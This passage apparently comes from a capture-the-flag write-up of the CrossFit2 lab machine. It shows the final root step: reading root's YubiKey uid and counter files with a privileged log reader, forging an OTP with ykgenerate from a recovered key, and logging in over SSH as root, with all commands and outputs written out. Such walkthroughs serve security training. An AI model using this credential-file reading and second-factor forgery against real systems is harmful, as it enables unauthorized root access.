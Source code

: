 ```
crossfit2$ log /var/db/yubikey/root.uid

* LogReader v0.1

[*] Log size: 13

a4ce1128bde4
```

```
crossfit2$ log /var/db/yubikey/root.ctr

* LogReader v0.1

[*] Log size: 6

985089
```

Installing yubikey on our local machine and following the [documentation](https://developers.yubico.com/yubico-c/Manuals/ykgenerate.1.html) we can generate our own key. The counter is too long according to the documentation, but only using the last 2 bytes works just fine to generate the OTP.

```
$ ykgenerate 6bf9a26475388ce998988b67eaa2ea87 a4ce1128bde4 5089 c0a8 00 10
dgvrelfegbnkthnfvenbejhiredtlhhf
```

Using the ssh key in combination with the OTP, we can now finally log into the machine as the root user and add the root flag to our collection.

```
$ ssh -i root root@crossfit.htb
root@crossfit.htb's password:
OpenBSD 6.8 (GENERIC.MP) #4: Mon Jan 11 10:35:56 MST 2021

Welcome to OpenBSD: The proactively secure Unix-like operating system.

Please use the sendbug(1) utility to report bugs in the system.
Before reporting a bug, please try to reproduce it with the latest
version of the code.  With bug reports, please try to ensure that
enough information to reproduce the problem is enclosed, and if a
known fix for it exists, include that as well.

crossfit2# id
uid=0(root) gid=0(wheel) groups=0(wheel), 2(kmem), 3(sys), 4(tty), 5(operator), 20(staff), 31(guest)
crossfit2# wc -c /root/root.txt
      33 /root/root.txt
```

